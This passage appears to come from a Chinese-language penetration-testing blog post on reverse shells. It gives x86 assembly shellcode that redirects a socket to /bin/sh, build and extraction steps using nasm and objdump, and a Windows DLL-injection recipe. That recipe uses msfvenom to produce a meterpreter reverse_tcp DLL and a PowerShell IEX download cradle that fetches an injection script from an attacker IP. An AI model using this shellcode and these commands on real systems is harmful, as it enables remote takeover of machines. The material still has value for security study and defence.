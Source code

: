 ```
mov ebx,esi ;将客户端的soc文件描述符复制到ebx
;dup2(soc,0)
xor ecx,ecx ;清空ecx
mov al,63 ;将系统调用的第一个参数设置为63：dup
int 0x80  ;进行系统调用
 
;dup2(client,1)
inc ecx ;ecx设置为1
mov al,63 ;准备进行系统调用:dup2:63
int 0x80  ;进行系统调用
 
;dup2(client,2)
inc ecx ;ecx设置为2
mov al,63 ;准备进行系统调用:dup2:63
int 0x80 ;进行系统调用
 
;标准的execv("/bin/sh"...
push edx
push long 0x68732f2f
push long 0x6e69622f
mov ebx,esp
push edx
push ebx
mov ecx,esp
mov al,0x0b
int 0x80
```

[![复制代码](https://assets.cnblogs.com/images/copycode.gif)](javascript:void(0);)

注意，push long 0x6400A8C0 这里就是IP地址，出现了00，在网络传输中会被截断。

```
nasm -f elf reverse_port_asm.asm
ld -o reverse_port_asm reverse_port_asm.o
# 然后抽取十六进制代码
objdump -d ./reverse_port_asm
# 得到shellcode 
```

### 4. 通过dll进程注入执行反弹shell

PowerSploit是又一款基于powershell的后渗透攻击框架。PowerSploit包括Inject-Dll(注入dll到指定进程)、Inject-Shellcode（注入shellcode到执行进程）等功能。
利用msfvenom、metasploit和PowerSploit中的Invoke-DllInjection.ps1 实现dll注入，反弹shell、

- msfvenom生成dll后门：msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.159.134 lport=6667 -f dll -o /var/www/html/PowerSploit/lltest.dll
- metasploit设置payload开启监听
- powershell下载PowerSploit中Invoke-DllInjection.ps1和msfvenom生成的dll后门：IEX (New-Object Net.WebClient).DownloadString("http://192.168.159.134/PowerSploit/CodeExecution/Invoke-DllInjection.ps1")Invoke-DllInjection -ProcessID 5816 -Dll C:UsersAdministratorDesktoplltest.dll
